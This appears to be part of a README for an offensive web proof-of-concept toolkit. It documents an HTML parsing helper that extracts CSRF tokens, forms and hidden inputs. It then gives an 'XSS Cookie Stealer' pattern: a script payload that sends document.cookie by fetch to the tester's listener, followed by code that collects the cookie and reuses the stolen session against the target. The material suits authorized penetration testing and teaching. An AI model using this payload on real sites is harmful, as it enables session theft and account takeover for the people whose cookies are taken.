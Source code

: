 ## HTML Parser (`utils/html_parser.py`)

Easy BeautifulSoup wrapper for quick HTML parsing:

```python
from utils.html_parser import HTMLParser, quick_parse, parse_response

# Parse from response
parser = HTMLParser.from_response(response)

# Find elements
form = parser.find_by_id("login-form")
inputs = parser.find_all_by_class("form-input")
links = parser.find_links()

# CSRF token extraction
csrf = parser.find_csrf_token()  # Auto-finds common CSRF token names
all_tokens = parser.find_all_csrf_tokens()  # Get all potential tokens

# Form handling
forms = parser.find_forms()
for form in forms:
    data = parser.extract_form_data(form)  # Extract all inputs as dict
    print(f"Action: {form.get('action')}, Data: {data}")

# Quick dumps
parser.dump_forms()  # Print all forms with their data
parser.dump_links()  # Print all links

# CSS selectors
hidden = parser.css_select("input[type='hidden']")
button = parser.css_select_one("#submit-btn")

# Text search
results = parser.search("admin", tag="div")  # Find text in specific tags

# Quick usage
parser = quick_parse(html_string)
csrf = parser.find_csrf_token()
```

## Common POC Patterns

### XSS Cookie Stealer
```python
# 1. Start server to catch callbacks
# python servers/server.py

# 2. Send XSS payload
xss = f"<script>fetch('http://{lhost}:8000/queue?cookie='+document.cookie)</script>"
send_payload(xss)

# 3. Get stolen cookie
from utils.server_hooks import get_cookie
from utils.cookie import parse_cookie_string

cookie_str = get_cookie(timeout=30)
cookies = parse_cookie_string(cookie_str)

# 4. Use stolen session
r = requests.get(target, cookies=cookies)
```
